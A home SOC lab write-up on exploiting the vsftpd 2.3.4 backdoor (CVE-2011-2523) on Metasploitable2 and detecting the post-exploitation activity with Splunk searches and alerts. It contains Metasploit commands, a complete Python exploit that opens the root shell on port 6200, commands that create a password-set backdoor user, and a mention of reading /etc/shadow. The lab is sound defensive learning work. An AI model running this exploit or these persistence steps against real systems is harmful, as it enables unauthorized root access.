








# Project 04 — vsftpd 2.3.4 Exploitation and Post-Exploitation Detection with Splunk

**Date:** 2026-05-21  **Analyst:** Halil Ibrahim Yilmaz  **Level:** Home SOC Lab / Learning Project  **Status:** Completed

---

## Goal

The goal of this lab was to exploit a known backdoor vulnerability in vsftpd 2.3.4 and observe what a SIEM can detect during and after the exploitation. The vulnerability, CVE-2011-2523, was originally identified during the Nmap version scan in Project 01. This project followed that finding with real exploitation and post-exploitation activity.

Getting a shell was not the main point. The question I wanted to answer was: what does Splunk actually see during an attack like this, and what does it miss? A SIEM can only detect what the logging pipeline delivers to it, and understanding where that pipeline stops is just as useful as knowing what it captures.

I also wanted to go beyond manual searches and configure Splunk saved alerts that fire automatically when suspicious activity happens. Two alerts were built and validated during the lab.

---

## Lab Environment

| Role | System | IP Address |
|---|---|---|
| Attacker | Kali Linux | `10.0.2.10` |
| Victim | Metasploitable2 | `10.0.2.14` |
| SIEM | Splunk Enterprise on Ubuntu Server | `10.0.2.11` |
| Network | VirtualBox NAT Network | `10.0.2.0/24` |

All VMs were connected to the same VirtualBox NAT Network. SSH access to Metasploitable and Splunk was done from the host machine through port forwarding:

- `127.0.0.1:2223` → Metasploitable SSH
- `127.0.0.1:2222` → Splunk SSH
- `127.0.0.1:8000` → Splunk Web UI

---

## General Architecture

```text
[ Kali Linux - 10.0.2.10 ]
          |
          | FTP connection with malicious username
          | Backdoor shell on TCP/6200
          v
[ Metasploitable2 - 10.0.2.14 ]
          |
          | /var/log/auth.log
          | /var/log/syslog
          | rsyslog forwarding over UDP/514
          v
[ Splunk Enterprise - 10.0.2.11 ]
          |
          | sourcetype=syslog
          v
[ Search / Detection / Alerts ]
```

The attacker machine sent a specially crafted FTP request to Metasploitable2 to trigger the vsftpd backdoor. After gaining root access, post-exploitation activity was simulated on the victim. Authentication and system logs were forwarded from Metasploitable to Splunk via rsyslog over UDP port 514.

---

## Tools Used

| Tool | Purpose |
|---|---|
| Metasploit Framework | Initial exploit attempt |
| Python 3 | Custom exploit script |
| vsftpd 2.3.4 | Vulnerable FTP service on Metasploitable2 |
| rsyslog | Log forwarding from Metasploitable to Splunk |
| Splunk Enterprise | Log indexing, searching, detection, and alerting |

---

## Vulnerability Background

CVE-2011-2523 is a backdoor that was deliberately placed into the vsftpd 2.3.4 source code. When a client connects to FTP and sends a username containing the string `:)`, the server opens a root shell on TCP port 6200 with no authentication required. The backdoor was present in a compromised version of the vsftpd source tarball distributed between June and July 2011 and was discovered after users noticed unexpected outbound connections on port 6200.

Metasploitable2 ships with this version intentionally as a training target. The service was already flagged during the Nmap version scan in Project 01, where vsftpd 2.3.4 was identified on port 21 with a note about the public backdoor.

---

## Exploit Execution

### Metasploit Attempt

The first approach was to use the Metasploit module for this vulnerability:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.0.2.14
set PAYLOAD generic/shell_bind_tcp
set LPORT 6200
run
```

Metasploit triggered the backdoor successfully. The output confirmed this:

```
[+] 10.0.2.14:21 - Backdoor has been spawned!
[*] Started bind TCP handler against 10.0.2.14:6200
[-] Command shell session 1 is not valid and will be closed
[*] 10.0.2.14 - Command shell session 1 closed.
```

The backdoor opened on port 6200 as expected but the session closed immediately. Several payloads from the compatible payload list were tested and none of them produced a stable session. The problem is a compatibility gap between modern Metasploit payload delivery and the old Metasploitable2 environment. The module does its job correctly but the payload negotiation fails on the target side.

### Python Exploit Script

To work around the Metasploit issue, I wrote a short Python script that performs the exploit steps manually. The script connects to FTP, sends the malicious username to trigger the backdoor, waits for port 6200 to open, and connects to the shell directly. This approach was developed with AI assistance.

```python
import socket
import time

host = "10.0.2.14"
ftp_port = 21
backdoor_port = 6200

print("[*] Connecting to FTP service...")
ftp = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
ftp.connect((host, ftp_port))
print(ftp.recv(1024).decode())

print("[*] Sending malicious username to trigger backdoor...")
ftp.send(b"USER backdoored:)\r\n")
time.sleep(1)
ftp.recv(1024)

ftp.send(b"PASS anypassword\r\n")
time.sleep(2)

print("[*] Connecting to backdoor port 6200...")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
shell.connect((host, backdoor_port))
print("[+] Shell opened!")

shell.send(b"whoami\n")
time.sleep(0.5)
print(shell.recv(1024).decode())

while True:
    try:
        cmd = input("shell> ")
        if cmd == "exit":
            break
        shell.send((cmd + "\n").encode())
        time.sleep(0.5)
        print(shell.recv(4096).decode())
    except KeyboardInterrupt:
        break
```

The script was run from the Kali terminal:

```bash
python3 vsftpd_exploit.py
```

The result confirmed a root shell on the target:

```
[*] Connecting to FTP service...
220 (vsFTPd 2.3.4)
[*] Sending malicious username to trigger backdoor...
[*] Connecting to backdoor port 6200...
[+] Shell opened!
root
shell>
```



---

## Post-Exploitation Activity

After gaining root access through the backdoor shell, I simulated persistence behavior that an attacker might perform after compromising a system.

### Creating a Backdoor User Account

A new local user account was created to simulate persistence. An attacker would do this to keep access to the system even after the original vulnerability gets patched.

```bash
useradd -m -s /bin/bash backdooruser
echo "backdooruser:Password123!" | chpasswd
```

### Switching to the Backdoor Account

To simulate an attacker returning through the persistence account, the `su` command was used to switch to `backdooruser`:

```bash
su backdooruser -c "whoami"
```

This command goes through the PAM authentication stack, which means it generates auth log entries that get forwarded to Splunk.

---

## Detection in Splunk

### Log Coverage

Before running the detections, the rsyslog forwarding configuration on Metasploitable was expanded. The original configuration from Project 02 only forwarded `auth.*` and `authpriv.*`. Additional facilities were added to increase coverage:

```text
auth.*              @10.0.2.11:514
authpriv.*          @10.0.2.11:514
syslog.*            @10.0.2.11:514
kern.*              @10.0.2.11:514
daemon.*            @10.0.2.11:514
user.*              @10.0.2.11:514
```

The pipeline was validated with a test log entry before running the detections:

```bash
logger -p daemon.info "PROJECT04 RSYSLOG EXPANDED TEST - $(date)"
```

The event arrived in Splunk with `host=10.0.2.14`, `source=udp:514`, and `sourcetype=syslog`, confirming the expanded configuration was working.

### Raw Event Overview

After the post-exploitation activity, a broad search confirmed that Splunk was receiving events from Metasploitable:

```spl
index=* host=10.0.2.14 earliest=-60m latest=now
| table _time host source _raw
| sort -_time
```



### Detection 1 — New Local User Created

The `useradd` command goes through PAM, which writes to `auth.log`. This log was forwarded to Splunk and was visible through the following search:

```spl
index=* host=10.0.2.14 "useradd" earliest=-24h latest=now
| table _time host _raw
| sort -_time
```



Splunk returned two events for the `backdooruser` account creation: one recording the new user entry with UID, GID, home directory, and shell, and one recording the new group entry associated with the account.

### Detection 2 — Root Session Activity

Multiple root session events were visible in Splunk, generated by cron and PAM as root-level processes ran on the system during the exploitation window.

```spl
index=* host=10.0.2.14 ("session opened" OR "session closed") "root" earliest=-24h latest=now
| table _time host _raw
| sort -_time
```



### Detection 3 — Switch to Backdoor User

The `su backdooruser` command generated several PAM events that were forwarded to Splunk. These events show the exact moment when the switch to the persistence account happened.

```spl
index=* host=10.0.2.14 ("backdooruser" OR "su") earliest=-24h latest=now
| table _time host _raw
| sort -_time
```



The result included `Successful su for backdooruser by root`, along with the corresponding PAM session open and close events.

### Detection Summary

A combined search categorized all detected activity into labeled detection types:

```spl
index=* host=10.0.2.14 earliest=-24h latest=now
| eval detection=case(
    match(_raw, "useradd") AND match(_raw, "backdooruser"), "Persistence - New backdoor user created",
    match(_raw, "Successful su") AND match(_raw, "backdooruser"), "Persistence - Switch to backdoor user",
    match(_raw, "session opened") AND match(_raw, "backdooruser"), "Persistence - Backdoor user session opened",
    match(_raw, "session opened for user root"), "Privilege - Root session opened",
    1=1, "Other"
)
| where detection != "Other"
| stats count by detection
| sort -count
```



| Detection | Count |
|---|---|
| Privilege - Root session opened | 11 |
| Persistence - Backdoor user session opened | 5 |
| Persistence - Switch to backdoor user | 5 |
| Persistence - New backdoor user created | 2 |

---

## What the SIEM Could Not See

The vsftpd backdoor shell opens a raw TCP socket on port 6200 and provides a direct root shell with no authentication layer. Commands run inside that shell do not go through PAM and are not written to `auth.log` or `syslog`.

During the lab, the following commands were executed inside the backdoor shell:

- `id`
- `uname -a`
- `cat /etc/passwd`
- `cat /etc/shadow`
- `netstat -antp`

None of these appeared in Splunk. They were not logged anywhere on the system. Capturing them would require a kernel-level audit daemon such as `auditd`, which was not available on Metasploitable2.

This is an important and realistic limitation. In many environments, SIEM visibility depends entirely on what the logging infrastructure is configured to capture. A shell obtained through a backdoor may produce very little log activity on its own. The SIEM starts seeing things again only when the attacker takes actions that pass through a monitored subsystem, such as PAM, cron, or a system service.

It is also worth noting that a real attacker would not want to generate logs. The fact that the backdoor shell bypasses PAM entirely is part of what makes it dangerous from a detection standpoint.

---

## Splunk Saved Alerts

Two saved alerts were configured to detect the main persistence behaviors automatically.

### Alert 1 — New Local User Created on Metasploitable

```spl
index=* host=10.0.2.14 "useradd" earliest=-1m latest=now
| table _time host _raw
| sort -_time
```

| Setting | Value |
|---|---|
| Alert type | Scheduled |
| Schedule | Every 1 minute (`*/1 * * * *`) |
| Trigger condition | Number of results > 0 |
| Severity | Medium |
| Action | Add to Triggered Alerts |

### Alert 2 — Successful Switch to Backdoor User on Metasploitable

```spl
index=* host=10.0.2.14 "Successful su" "backdooruser" earliest=-1m latest=now
| table _time host _raw
| sort -_time
```

| Setting | Value |
|---|---|
| Alert type | Scheduled |
| Schedule | Every 1 minute (`*/1 * * * *`) |
| Trigger condition | Number of results > 0 |
| Severity | High |
| Action | Add to Triggered Alerts |

Both alerts were tested by running the relevant commands on Metasploitable and confirming that they appeared in the Triggered Alerts view within one minute.





---

## Issues I Ran Into

### 1. Metasploit Session Closed Immediately

The Metasploit module triggered the backdoor correctly but could not keep the session open. The output showed `Backdoor has been spawned!` followed immediately by `Command shell session 1 is not valid and will be closed`.

I tested several payloads from the compatible list, including `generic/shell_bind_tcp` with LPORT set to 6200 to match the backdoor port. None of them worked. After some investigation it became clear that modern Metasploit payloads expect capabilities that the old Metasploitable2 system cannot provide. The module does its job but the payload side fails on the target.

The fix was to write a Python script that performs the exploit steps manually without relying on a Metasploit payload. Working through this was useful because it required understanding what the backdoor actually does at the protocol level, not just running a module and expecting a session.

### 2. Backdoor Shell Commands Were Not Logged

After getting the shell through the Python script, commands like `id`, `uname -a`, and `cat /etc/shadow` produced no events in Splunk. At first this looked like a forwarding problem, but other events were arriving correctly, so the issue was somewhere else.

The vsftpd backdoor shell bypasses PAM and opens a raw socket. Commands run inside it do not get written to `auth.log` or `syslog`. Without `auditd` or a similar kernel-level mechanism, rsyslog has nothing to forward. The pipeline was working fine. There were simply no log entries being generated for those commands. This ended up being one of the more valuable findings in the lab.

### 3. Backdoor Shell Interactive Input Was Unstable

The Python script worked for short commands but stalled on larger outputs like `cat /etc/shadow`. The `recv(4096)` buffer filled up during long responses and subsequent commands had no visible output in the terminal.

This was a limitation of the script itself. The post-exploitation actions that mattered for detection, user creation and account switching, were performed from the existing Metasploitable SSH session, which worked without any issues and generated the expected log entries in Splunk.

### 4. Real-time Splunk Alerts Fired Repeatedly

The first set of saved alerts was configured with the Real-time alert type. These alerts ran continuously and re-evaluated the same historical events on every cycle, triggering dozens of times within a few minutes.

The alerts were deleted and rebuilt using the Scheduled type with a cron expression of `*/1 * * * *` and a 60-second throttle. After that change the alerts behaved as expected, firing once when new matching activity appeared and not again until the throttle period expired.

---

## MITRE ATT&CK Mapping

| Technique | ID | Why It Applies |
|---|---|---|
| Exploit Public-Facing Application | T1190 | The vsftpd 2.3.4 backdoor on FTP port 21 was exploited to gain initial access. |
| Command and Scripting Interpreter: Unix Shell | T1059.004 | A root shell was obtained through the vsftpd backdoor on TCP port 6200. |
| Create Account: Local Account | T1136.001 | A new local user account (`backdooruser`) was created and given a password to establish persistence on the victim. |
| Valid Accounts: Local Accounts | T1078.003 | The `su` command was used to switch to the newly created persistence account. |

---

## What I Learned

The most useful thing I took from this lab was understanding the difference between what an attacker does and what a SIEM can see. The vsftpd backdoor gave a root shell, but almost none of the activity inside that shell showed up in Splunk. The logging infrastructure was configured to forward PAM events, and the backdoor shell skipped PAM entirely. The pipeline was not broken. It just had nothing to pick up from inside the shell.

The Metasploit compatibility issue also taught me something. When the module failed, I had to understand what the backdoor actually does at the network level before I could write a workaround. Sending `:)` in the FTP username, waiting for port 6200 to open, and connecting to it directly. Once those steps were clear, writing the Python script was straightforward. Going through that process gave me a much better understanding of the vulnerability than just running a module would have.

The Splunk alert configuration took more time than expected. Real-time alerts re-evaluate continuously and kept triggering on the same historical events. Switching to scheduled alerts with a cron expression and a throttle fixed the behavior. Understanding when to use Real-time versus Scheduled alerts is something I will keep in mind for future labs.

Expanding the rsyslog configuration was also worth doing. Adding `daemon.*`, `kern.*`, and `syslog.*` brought in more events but still did not capture activity from inside the backdoor shell. Covering that gap would need a different tool, like `auditd`. Log coverage is a design decision, and every gap in coverage is a potential blind spot for the SIEM.

---

## Possible Future Improvements

- Install and configure `auditd` on Metasploitable to capture shell-level command execution and file access events
- Forward vsftpd logs from `/var/log/vsftpd.log` to Splunk to capture the FTP connection and backdoor trigger event
- Add a detection for connections to port 6200 using network-level logs or firewall logs
- Build a correlation search linking `useradd` events to subsequent `su` events for the same username within a short time window
- Add a Splunk dashboard summarizing all detection categories with event count over time
- Test the same attack on a system with `auditd` enabled and compare what Splunk sees
- Add detection for new service installation or crontab modification as additional persistence indicators

---

## Result

At the end of this lab, I exploited CVE-2011-2523 on Metasploitable2, obtained a root shell through the vsftpd backdoor, and simulated post-exploitation persistence activity including local user creation and account switching. Splunk detected the PAM-based activity, including `useradd` events, root session events, and `su` events targeting the backdoor account, and two saved alerts were configured and validated to trigger automatically when these behaviors occur. The lab also produced a clear picture of what the SIEM could not see and why, which turned out to be as important as the detections themselves.

---

## Note

*This project was completed in an isolated home lab environment. No real systems were targeted.*
